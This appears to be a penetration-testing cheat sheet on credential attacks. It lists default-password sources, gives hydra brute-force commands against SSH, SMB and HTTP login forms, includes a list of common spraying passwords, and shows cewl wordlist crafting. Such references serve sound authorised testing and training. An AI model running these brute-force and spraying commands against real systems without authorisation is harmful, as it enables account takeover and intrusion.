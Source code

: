 #### Default credentials

- Use google : <software> default password or search in documentation
- Test admin, root, hostname of the box, user as password, empty password, default password...
- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
- https://github.com/ihebski/DefaultCreds-cheat-sheet/blob/main/DefaultCreds-Cheat-Sheet.csv
- Source code (if available)
- Stickers on network devices

#### Brute force

- https://book.hacktricks.xyz/brute-force

```
hydra -l admin -P passwords.txt -e nsr ssh://$IP:2222
hydra -L users.txt -p Welcome01 -e nsr smb2://$IP
hydra -l administrator -p admin -M windows_hosts.txt smb
hydra -C creds.txt -M windows_hosts.txt smb
```
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/path/admin.php:user=^USER^&pass=^PASS^:Incorrect"

hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-get /path/admin.html
```

#### Password spraying

- Welcome01
- Password1
- Company1!
- Company2024
- Winter2024

#### Wordlist crafting

```
cewl -d 2 -m 8 --with-numbers -w out.txt http://www.website.com/
pw-inspector -h
```

Generate a user name list for brute force from first and last name :

- https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name
